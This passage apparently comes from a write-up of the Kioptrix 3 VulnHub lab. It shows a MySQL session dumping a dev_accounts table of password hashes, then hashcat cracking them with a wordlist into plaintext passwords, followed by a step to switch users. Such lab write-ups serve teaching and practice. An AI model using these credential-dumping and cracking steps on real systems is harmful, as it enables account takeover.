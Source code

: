 	mysql> use gallery
	Reading table information for completion of table and column names
	You can turn off this feature to get a quicker startup with -A

	Database changed
	mysql> show tables;
	+----------------------+
	| Tables_in_gallery    |
	+----------------------+
	| dev_accounts         | 
	| gallarific_comments  | 
	| gallarific_galleries | 
	| gallarific_photos    | 
	| gallarific_settings  | 
	| gallarific_stats     | 
	| gallarific_users     | 
	+----------------------+
	7 rows in set (0.00 sec)
	
	mysql> select * from dev_accounts;
	+----+------------+----------------------------------+
	| id | username   | password                         |
	+----+------------+----------------------------------+
	|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |  # MD5 Hash
	|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
	+----+------------+----------------------------------+
	2 rows in set (0.00 sec)
	```
7. Crack hash
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix3/192.168.1.95/exploit]
	└─# hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt  --show
	0d3eccfb887aabd50f243b3f155c0f85:Mast3r
	5badcaf789d3d1d09794d8f021f40f0e:starwars
	```
	- dreg:Mast3r
	- loneferret:starwars
8. Switch to loneferret
	![](images/Pasted%20image%2020220123194519.png)
